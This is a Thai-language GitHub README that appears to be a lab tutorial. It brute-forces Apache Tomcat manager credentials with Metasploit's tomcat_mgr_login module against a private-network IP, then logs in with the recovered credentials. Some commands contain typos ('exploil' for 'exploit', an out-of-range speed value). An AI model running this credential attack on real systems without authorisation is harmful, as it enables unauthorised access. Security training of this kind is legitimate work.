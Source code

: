 # Attacking-Apache-Tomcat-with-Metasploit

### Metasploit Framework 

> ซึ่งเป็นเครื่องมือที่ใช้สำหรับการทดสอบเจาะระบบ (penetration testing) และการประเมินความปลอดภัยของระบบเครือข่ายและแอปพลิเคชัน

```
msfconsole
```

![msfconsole](https://github.com/Atiwitch15101/Attacking-Apache-Tomcat-with-Metasploit/assets/159407312/84f6410d-5ee7-47e9-a7ec-54f8332e15a7)

### Nmap Service Version Detection

> Nmap มี Option ที่ใช้ตรวจสอบและคาดเดา service และเวอร์ชั่นของ service นั้นก็คือ -sV ตามด้วย IP หรือ Host ที่เราต้องการ

```
nmap -sV 192.168.19.175
```

![nmap -sV](https://github.com/Atiwitch15101/Attacking-Apache-Tomcat-with-Metasploit/assets/159407312/6f8c730d-a227-44d5-abbf-433092e433af)

### search

> คำสั่ง search ใน Metasploit Framework ช่วยค้นหาโมดูลที่เกี่ยวข้องกับคำสำคัญที่คุณป้อนไป

```
search tomcat
```

![search](https://github.com/Atiwitch15101/Attacking-Apache-Tomcat-with-Metasploit/assets/159407312/ecce85cc-adb6-4131-a129-778651be0599)

### use

>use ใน Metasploit Framework ช่วยให้ผู้ใช้สามารถเลือกและใช้โมดูลที่ต้องการในการทดสอบเจาะระบบได้

```
use auxiliary/scanner/http/tomcat_mgr_login 
```

![use](https://github.com/Atiwitch15101/Attacking-Apache-Tomcat-with-Metasploit/assets/159407312/32920552-4e06-4e91-b3e0-95fccecb9e99)

### show options

>คำสั่ง show options เมื่อใช้ Metasploit Framework ใช้เพื่อแสดงตัวเลือกและพารามิเตอร์ที่สามารถตั้งค่าสำหรับโมดูลที่เลือก ช่วยให้รู้ว่าต้องกำหนดค่าอะไรบ้างก่อนที่จะรันโมดูลนั้น

```
show options
```

![show op1](https://github.com/Atiwitch15101/Tomcat/assets/159407312/f10b8150-1873-449a-937e-97a1fe381181)

### set

>คำสั่ง set เมื่อใช้ Metasploit Framework ใช้เพื่อกำหนดค่าพารามิเตอร์สำหรับโมดูลที่เลือก

> [!NOTE]
> - `BRUTEFORCE_SPEED` ตั้งความเร็วในการ brute force (1-5, ค่า 5 เร็วสุด)
> - `RHOSTS` ระบุเป้าหมายหรือกลุ่มเป้าหมาย (เช่น IP หรือช่วง IP)
> - `STOP_ON_SUCCESS` หยุดการโจมตีเมื่อประสบความสำเร็จ (true/false)
> - `RPORT` ระบุพอร์ตของเป้าหมาย (เช่น 80 สำหรับ HTTP)

```
set BRUTEFORCE_SPEED 8
```

```
set BRUTEFORCE_SPEED 5
```

```
set RHOSTS 192.168.19.175
```

```
set STOP_ON_SUCCESS true
```

```
set RPORT 8180
```
![set](https://github.com/Atiwitch15101/Tomcat/assets/159407312/0c6d6159-8413-4831-9be7-5ee49929a4a4)

### Check show options again

>เพื่อตรวจสอบค่าที่เราเปลี่ยน

```
show options
```

![show op2](https://github.com/Atiwitch15101/Tomcat/assets/159407312/bc29ddb7-bfa9-4ccf-91e2-e14cb5e3aa69)

### exploil

>คำสั่ง exploit เมื่อใช้ Metasploit Framework ใช้เพื่อเริ่มการโจมตีหรือรันโมดูลที่คุณตั้งค่าเรียบร้อยแล้ว

```
exploil
```

![exploil](https://github.com/Atiwitch15101/Tomcat/assets/159407312/eaa4952b-4cf8-4403-ad7c-f3f9a6a7c655)

>รอ Run ให้เสร็จ จะเห็น User และ pass

![exploil end](https://github.com/Atiwitch15101/Tomcat/assets/159407312/f099ee12-9fb7-4dd9-ba13-d0ba4e89b623)

### lohing

>จากนั้นนำ user และ pass ไป login ที่ url เดิม

![loging](https://github.com/Atiwitch15101/Tomcat/assets/159407312/944f1542-41e6-47ac-be77-9d5642a509c8)

### login

![login](https://github.com/Atiwitch15101/Tomcat/assets/159407312/c73bc666-2e37-456d-be83-d49c3c609148)

